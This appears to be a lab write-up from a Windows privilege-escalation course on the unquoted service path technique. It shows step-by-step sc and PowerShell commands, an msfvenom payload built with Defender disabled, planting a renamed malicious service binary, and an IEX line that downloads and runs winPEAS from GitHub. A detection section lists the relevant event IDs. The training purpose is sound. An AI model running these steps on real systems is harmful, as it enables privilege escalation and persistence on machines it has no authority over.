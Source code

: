 # UNQUOTED SERVICE PATH

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

# SUMMARY

Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.

Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.

This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.

# MITRE

![screenshot](./images/token_unquoted.jpg)

- AlwaysInstallElevated (MSI)
  
- Unquoted Service Path (Services)
  - Requires missing "quotes"
  - and whitespaces in the path
  - write permission in the (sub)folder that holds the service binary

To exploit, the exe needs to be named after the directory it's in, i.e:

---  

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

- Create folders "C:\MyPrograms\Vulnerable Service\"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path

```powershell
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "Threathunt25"
sc qc VulnService
sc start VulnService
```

When there are spaces in a service path, windows will try to find the service as follows:

It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into

- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments `Service\service.exe`

By placing a malicious service exe in `"C:\MyPrograms\"` named `vulnerable.exe`, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)

# CREATING A CUSTOM SERVICE

So one thing to remember is that services are not interactive with the user's destop - Why no MessageBox.Show() in a service?
The reason MessageBox.Show() won't work is fundamental to how Windows Services operate. They run in Session 0, which is an isolated session reserved for services and system processes. User sessions (where you see your desktop and applications) run in higher-numbered sessions (e.g., Session 1, Session 2, etc.). A service in Session 0 cannot directly interact with a user's desktop in another session.

> NOTE: DEFENDER is turned <r>***OFF***</r> for this PoC, as it will detect out-of-the-box payloads generated by MSFVenom (Metasploit), yes even a messagebox payload.

On Kali:

```bash
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE" -f exe-service -o Vulnerable.exe
```

![image](./images/unq_msfbox.jpg)

Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms. You'll see the ***service will fail to start*** up and won't show a messagebox. I'f you'd create a metasploit meterpreter payload (which is not interactive with the user's desktop), it will actually work just find.

  https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md

So we have provided a custom C# service that shows code execution (in this it's just a ping to 1.1.1.1) we can easily modify this to do evil stuff, code-execution is code-execution! :)

![image](./images/unq_evilservice.jpg)

> You can find the source code under `"C:\THEV\Labs\Privesc\EvilService"`. We have pre-compiled the code so just rename the EvilService.exe to `Vulnerable` and copy it to `"C:\MyPrograms\"`.

```powershell
cd C:\MyPrograms
cp C:\THEV\Labs\PrivEsc\EvilService\EvilService\bin\x64\Release\EvilService.exe C:\MyPrograms\Vulnerable.exe
ls
get-service VulnService
get-service VulnService | start-service
get-service VulnService
```

![image](./images/unq_pwshstart.jpg)

This is what it should look like:

![image](./images/unq_explorer.jpg)

Now let's start the service, you can do this from powershell (as shown in the schreenshot below), or using the services console on windows (below):

![image](./images/unq_services.jpg)




# VERIFY IF OUR SERVICE IS ACTUALLY RUNNING

Let's have a look at our eventlogs to confirm our new service did actually run:

| log | Event ID | Description |
|-|-|-|
| Sysmon | 1 | Process Creation |
| Windows Security | 4688 | Process Execution and Commandline |
| Windows Application | 0 | Custom log, our program writes with event ID 0 to this log|
--- 

![image](./images/unq_elex_applog.jpg)

---

Run the following tools as a regular unprivileged user (`runas /user:student powershell.exe`)

> - [+] SharpUp/Powerup
> - [+] WinPeas

### WINPEAS

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```




> Please note that regular users can't restart services, but after a reboot this will automatically execute.

You'll now have a 2nd beacon with `NT AUHORITY\SYSTEM` privileges.


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `Code-Execution` and `Persistence`!!!